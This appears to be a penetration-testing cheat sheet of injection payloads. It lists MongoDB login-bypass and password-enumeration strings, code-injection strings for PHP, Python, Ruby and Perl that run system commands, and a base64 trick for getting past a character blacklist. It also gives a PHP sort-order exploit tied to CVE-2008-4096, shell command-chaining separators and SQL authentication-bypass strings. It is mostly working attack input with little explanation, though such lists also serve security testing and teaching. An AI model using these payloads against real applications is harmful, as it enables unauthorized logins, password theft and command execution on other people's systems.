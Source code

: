 # Injection

- ### Code execution/injection (<u>eval functions are bad</u>)
    - **comment out** and insert new code
        - PHP: `//`
        - SQL: `/* */`
        - MySQL: `-- `
        - Some SQL: `#`
        - MongoDB: `%00`,`//`, `<!--`
    - NoSQL:
        - MongoDB:
            - `username=admin' || 1==1 %00&password=whatever&submit=Submit`
            - `username' && this.password%00` (determine if password field exists)
            - `username' && this.password && this.password.match(/.*/)%00` (determine if password does match wildcard)
            - - `username' && this.password && this.password.match(/^[char].*$/)%00` (password enumeration)
    - **concatenation** to inject code:
        - Ruby: `+` >> ``"+`[COMMAND]`+"``
        - PHP: `. +` >> `/?name=".system('id');//"`
        - Python: `+` >> `/hello/hacker"+str(os.popen('id').read())+"`
            - (import module) >> `/hello/hacker"+str(__import__('os').popen('id').read())+"` 
            - (`/` blacklisted) >> `/hello/hacker"+str((__import__('os').popen(__import__('base64').b64decode('[BASE64 ENCODED COMMAND]').decode())).read())+"`
        - Perl: `.` >> ``/cgi-bin/hello?name=hacker'.`id`.'a``
    - **sorting/ordering** exploit:
        - PHP:
            - `/?order=id);}system('whoami');//` - [CVE-2008-4096]
    - **regex search /replace**:
        - PHP
            - `/?new=system('id')&pattern=/replacement/e&base=Hello%20user` (/e modifiers, PHP evaluate new values before performing the substitution)      
    - **legacy functions**
        - PHP
            - _[assert()](https://www.php.net/manual/en/function.assert.php)_: `/?name=hacker'.system('id').'`
- ### Command Execution  
    - Linux:
        - `command1 && command2 that will run command2 if command1 succeeds.`  
        `command1 || command2 that will run command2 if command1 fails.`  
        `command1 ; command2 that will run command1 then command2.`  
        `command1 | command2 that will run command1 and send the output of command1 to command2.`  
        `$(injected command)`  
        `` \`injected command\` ``

- ### SQL Injection
    MySql: 
    ```
    ' OR 1=1 -- 
    ' OR '1'='1
    ' OR '1'='1' -- 
    ') OR 1=1 -- 
    " OR 1=1 -- 
    " OR "1"="1
    " OR "1"="1" -- 
    ") OR 1=1 -- 
    ' OR 1=1 LIMIT 1 -- 
     OR '1'='1' LIMIT 1 -- 
    ') OR 1=1 LIMIT 1 -- 
    ') OR '1'='1' LIMIT 1 -- 
    ```
